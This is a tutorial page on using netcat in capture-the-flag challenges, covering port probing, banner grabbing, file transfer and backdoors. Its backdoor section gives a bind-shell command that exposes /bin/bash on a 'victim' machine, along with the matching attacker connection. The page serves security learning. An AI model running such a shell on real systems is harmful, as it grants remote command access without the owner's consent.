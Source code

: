 +++
title = 'Netcat'
categories = ['Enumeration']
date = 2023-12-22T00:12:28+01:00
+++

# Unleashing Netcat's Potential in Capture The Flag (CTF) Challenges

Netcat, often referred to as the "Swiss army knife" of networking, is a versatile utility that reads and writes data across network connections using the TCP/IP protocol. Its flexibility and ease of use make it an invaluable tool in Capture The Flag (CTF) challenges, where participants seek to exploit vulnerabilities and capture hidden flags. Let's delve into the myriad ways Netcat can be utilized in CTF scenarios.

## Introduction to Netcat

Netcat's primary function is to establish TCP or UDP connections, making it ideal for probing open ports, creating backdoors, transferring data, and more. In CTF challenges, Netcat can be leveraged for a variety of tasks, from basic network exploration to complex exploitation.

## Key Features of Netcat

- Port Scanning: Quick checks for open ports on a target machine.
- Banner Grabbing: Identifying service running on open ports.
- File Transfer: Sending or receiving files over a network.
- Creating Backdoors: Opening remote shells for exploitation.
- Chatting: Setting up a simple text-based chat server and client.
- Network Debugging: Testing and troubleshooting network services.

## Netcat in CTF Scenarios

1. Information Gathering\
   CTF participants often start with reconnaissance. Netcat can scan for open ports on the target system and grab banners to identify running services and potential vulnerabilities.

```bash
nc -v target_ip 80
```

2. Exploiting Vulnerabilities\
   If a CTF challenge involves exploiting a vulnerable service, Netcat can be used to interact with the service. For instance, you might use it to send malformed requests to a web server or interact with a misconfigured network service.

3. File Transfers\
   In some CTF challenges, you may need to transfer files (payloads, exploits) to or from a target system. Netcat simplifies this process:

To receive a file on the target system:

```bash
nc -l -p 1337 > output.txt
```

To send a file from your machine:

```bash
nc target_ip 1337 < input.txt
```

4. Setting Up Backdoors

Netcat can be used to create a backdoor on a target machine, providing a remote shell to execute commands.\
This is particularly useful in CTF challenges where gaining shell access is the goal.

On the target machine (victim):

```bash
nc -l -p 1337 -e /bin/bash
```

On your machine (attacker):

```bash
nc target_ip 1337
```

5. Network Debugging and Testing

Netcat can act as a client and server for testing network services, making it useful for debugging during CTFs.

## Ethical Considerations and Legality

While Netcat is a powerful tool in CTFs, it is crucial to use it ethically. In real-world scenarios, only use Netcat on systems where you have explicit permission to do so.

## Conclusion

Netcat's simplicity and power make it a go-to tool in CTF competitions. Whether you're probing a network, transferring files, or exploiting vulnerabilities, Netcat can play a pivotal role in your CTF toolkit. As with any hacking tool, its power comes with the responsibility to use it ethically and legally.
